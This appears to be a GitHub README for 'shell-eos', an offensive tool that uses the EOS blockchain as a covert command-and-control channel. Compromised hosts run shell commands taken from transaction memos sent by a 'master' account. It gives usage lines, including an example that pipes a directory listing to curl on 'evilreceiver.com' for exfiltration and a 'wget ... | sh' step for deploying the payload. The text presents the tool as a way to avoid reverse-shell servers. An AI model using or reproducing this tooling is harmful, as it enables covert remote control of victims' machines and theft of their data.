 # shell-eos
Decentralized shell over eos blockchain to send commands by eos blockchain to the shells.

Avoid reverse shell usage , who requires online server listening for connections.

## Run the shell as a payload

Run the command to start the daemond listening in the blockchain address. When receives a new transacion the shell search the command in the memo of transaction to execute it.

`python3 payloads/shell-eos.py eosaccountname accountmaster`

*account master is who the bot obey

Send to a EOS address command line to execute orders

## Execute commands in each listening shell

`python3 payloads/send-eos.py eosaccountname` "ls -lsa | xargs ... | curl https://evilreceiver.com" .... -d {1}

## Publish datasets in a address as a recipient

`python3 payloads/send-eos.py eosaccountname` "data" "separator"

## Compile

`./compile.sh`

## Using as a payload

- Compile

- Upload to your prefered file server

`wget https://yourpreferedserver.com/path | sh`





